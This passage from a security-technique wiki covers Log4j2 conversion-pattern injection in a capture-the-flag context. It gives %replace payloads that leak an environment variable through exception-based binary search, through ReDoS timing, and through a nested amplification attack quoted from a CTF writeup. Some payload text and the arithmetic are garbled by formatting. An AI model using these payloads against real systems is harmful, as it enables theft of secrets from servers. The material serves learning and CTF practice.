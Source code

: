 This wasn't found useful to exfiltrate date inside the error message, because the lookup wasn't solved before the conversion pattern, but it could be useful for other stuff such as detecting.

### Conversion Patterns Regexes

However, it's possible to use some **conversion patterns that supports regexes** to exfiltrate information from a lookup by using regexes and abusing **binary search** or **time based** behaviours.

* **Binary search via exception messages**

The conversion pattern **`%replace`** can be use to **replace** **content** from a **string** even using **regexes**. It works like this: `replace{pattern}{regex}{substitution}`\
Abusing this behaviour you could make replace **trigger an exception if the regex matched** anything inside the string (and no exception if it wasn't found) like this:

```bash
%replace{${env:FLAG}}{^CTF.*}{${error}}
# The string searched is the env FLAG, the regex searched is ^CTF.*
## and ONLY if it's found ${error} will be resolved with will trigger an exception
```

* **Time based**

As it was mentioned in the previous section, **`%replace`** supports **regexes**. So it's possible to use payload from the [**ReDoS page**](../regular-expression-denial-of-service-redos.md) to cause a **timeout** in case the flag is found.\
For example, a payload like `%replace{${env:FLAG}}{^(?=CTF)((.`_`)`_`)*salt$}{asd}` would trigger a **timeout** in that CTF.

In this [**writeup**](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/), instead of using a ReDoS attack it used an **amplification attack** to cause a time difference in the response:

> ```
> /%replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{${ENV:FLAG}}{CTF\{" + flagGuess + ".*\}}{#############################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> ```
>
> If the flag starts with `flagGuess`, the whole flag is replaced with 29 `#`-s (I used this character because it would likely not be part of the flag). **Each of the resulting 29 `#`-s is then replaced by 54 `#`-s**. This process is repeated **6 times**, leading to a total of ` 29*54*54^6* =`` `` `**`96816014208`** **`#`-s!**
>
> Replacing so many `#`-s will trigger the 10-second timeout of the Flask application, which in turn will result in the HTTP status code 500 being sent to the user. (If the flag does not start with `flagGuess`, we will receive a non-500 status code)
